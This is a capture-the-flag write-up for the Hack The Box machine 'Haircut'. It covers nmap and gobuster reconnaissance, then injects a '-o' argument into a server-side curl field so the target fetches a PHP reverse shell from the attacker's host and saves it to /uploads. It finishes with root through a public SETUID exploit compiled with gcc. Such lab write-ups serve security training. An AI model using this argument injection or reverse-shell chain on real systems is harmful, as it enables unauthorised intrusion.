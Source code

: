 ```yaml
---
"title": "Hack The Box - Haircut"
"date": 2020-01-20
"tags": ["linux", "medium", "curl"]
"keywords": ["linux", "medium", "curl"]
"author": "Ghostbyt3"
"description": "We are going to pwn Haircut from Hack The Box."
"featured_image": "/img/htb-haircut/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-haircut/1.png)

We are going to pwn Haircut from Hack The Box.

Link :[https://www.hackthebox.eu/home/machines/profile/21](https://www.hackthebox.eu/home/machines/profile/21)


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:
![Untitled](/img/htb-haircut/2.png)
Looks like normal webpage, Lets try bruteforcing the directories and look for anything interesting.

## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/21 18:36:57 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
/test.html (Status: 200)
/hair.html (Status: 200)
/exposed.php (Status: 200)
===============================================================
2020/01/21 18:39:38 Finished
===============================================================
```

``/exposed.php`` 

![Untitled](/img/htb-haircut/3.png)

![Untitled](/img/htb-haircut/4.png)
``curl`` is running in the server so lets interrupt the request in the ``burp`` and see what going on.

![Untitled](/img/htb-haircut/5.png)
So by using ``curl`` we need to inject our payload inorder to get shell.

There is a way to upload reverse shell to the box using ``curl`` 
I started my HTTP server with ``Reverse PHP shell `` And we already know there is ``/uploads`` directory. 
![Untitled](/img/htb-haircut/6.png)

```
http://10.10.14.17:8000/shell.php -o /var/www/html/uploads/shell.php

-o will Write the file in /uploads/
```
Now lets start our listener and open the ``shell.php`` in the ``/uploads``[br/](br/)
![Untitled](/img/htb-haircut/7.png)

We got the shell.


## Privilege Escalation:

I upload my Linux Enumeration Script and I found an SETUID binary
![Untitled](/img/htb-haircut/8.png)

There is an exploit available for this version.

> https://www.exploit-db.com/exploits/41154

Downloaded the script and tried executing it leads to some error , So I split the script into 3

![Untitled](/img/htb-haircut/9.png)

Did the commands given from the script as manually.

> gcc -fPIC -shared -ldl -o exploit.so exploit.c 

![Untitled](/img/htb-haircut/10.png)

>gcc -o rootshell rootshell.c

![Untitled](/img/htb-haircut/11.png)

Then I uploaded all the scripts to the box
![Untitled](/img/htb-haircut/12.png)

And executed the last script ``root.sh``
![Untitled](/img/htb-haircut/13.png)

![Untitled](/img/htb-haircut/14.png)
Got Root






